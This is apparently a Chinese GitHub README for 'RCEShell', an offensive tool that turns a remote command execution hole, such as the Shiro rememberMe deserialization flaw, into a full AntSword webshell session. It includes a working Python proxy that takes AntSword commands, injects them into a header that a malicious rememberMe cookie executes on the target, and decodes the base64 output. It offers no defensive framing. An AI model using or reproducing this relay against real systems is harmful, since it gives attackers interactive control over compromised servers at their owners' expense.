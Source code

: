 # RCEShell: 将RCE等价转换为WebShell

基于AntSword的cmdshell，用于解决一些能够RCE但却因各种原因难以GetShell的情况。

# CMDShell

## 原理说明

大致就是使用纯命令，按照一个设定好的格式，实现数据的处理、拼接、返回，再使用GUI渲染出来。

[AntSword新类型 CmdLinux 预览](https://mp.weixin.qq.com/s?__biz=MzI0MDI5MTQ3OQ==&mid=2247484254&idx=1&sn=51b8aba9472ffe4ebad7d5153d2d1c6b&chksm=e91c58a6de6bd1b0dc725c985ec3cca4bd9a17451d313870f1f6463fb769d20ff836f3838c83&scene=21#wechat_redirect)

[新类型 PSWindows 预览](https://mp.weixin.qq.com/s/tPPg4VgQH-n2O3Lnfg8lVA)

> P.S. PSWindows文件下载只能下载文本类的文件。
> 

## Demo

使用system()模拟一个可以rce的地方。

![Untitled](.assests/Untitled.png)

在AntSword中添加连接，连接类型根据系统不同选择PSWindows或CMDLinux，此处选择PSWindows。

![Untitled](.assests/Untitled%201.png)

打开链接，即可将RCE的点当做标准webshell操作。

![Untitled](.assests/Untitled%202.png)

# RCEShell

## 以 Shiro RCE 为例

通过一层本地代理，将复杂HTTP请求转换为基础POST请求。

以shiro为例，常用工具中执行命令的请求逻辑为：在cookie中提交payload，payload获取当前报文中的指定header，并以该header的值作为执行的内容。

![Untitled](.assests/Untitled%203.png)

获取request中的报文：

![Untitled](.assests/Untitled%204.png)

其中用于交互的位置在header中：

![Untitled](.assests/Untitled%205.png)

返回的$$$XXX$$$即为base64加密后的结果。

![Untitled](.assests/Untitled%206.png)

## 写个转发脚本

监听web端口，将受到的post请求转换为shiro报文中的header，转发给目标url，提取有效返回结果并输出response。

### 实现代码

```python
from http.server import BaseHTTPRequestHandler, HTTPServer
import urllib.request
import urllib.parse
import re
import base64

# 提权response中的有效返回内容
def shiro(string):
    pattern = r'\$\$\$(.*?)\$\$\$'
    matches = re.findall(pattern, string)
    print(matches)
    matches = base64.b64decode(matches[0])
    return matches

# 指定目标URL
target_url = "http://1.1.1.1:8080/login"

# 创建自定义请求处理程序
class RequestHandler(BaseHTTPRequestHandler):
    def do_POST(self):
        # 获取POST请求的数据
        content_length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(content_length)
        ant = 'cmd'

        # 解析POST请求的参数
        params = urllib.parse.parse_qs(post_data)

        # 处理参数
        cmd = ''
        for key, values in params.items():
            if key.decode('utf-8') == ant:
                cmd = values[0].decode('utf-8')

        headers = {
            "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/15.4 Safari/605.1.15",
            "Cookie": "rememberMe=……",
            "c": cmd,
            "Content-Type": "application/json"
        }

        req = urllib.request.Request(target_url, headers=headers, data=post_data)
        response = urllib.request.urlopen(req)

        # 获取目标URL的响应
        response_data = response.read()

        # 设置响应头
        self.send_response(200)
        self.send_header('Content-type', 'text/html')
        self.end_headers()

        # 返回目标URL的响应给客户端
        self.wfile.write(shiro(response_data.decode('utf-8')))

# 启动Web服务器
def run():
    server_address = ('', 8001)
    httpd = HTTPServer(server_address, RequestHandler)
    print('启动 Forward 服务器...')
    httpd.serve_forever()

run()
```

其中，经过脚本转发后，request与response还原为基础post请求与返回。

![Untitled](.assests/Untitled%207.png)

## 效果演示

在AntSword中添加本地监听的地址，指定连接类型，即可直接利用Shiro的RCE实现WebShell功能。 

![Untitled](.assests/Untitled.gif)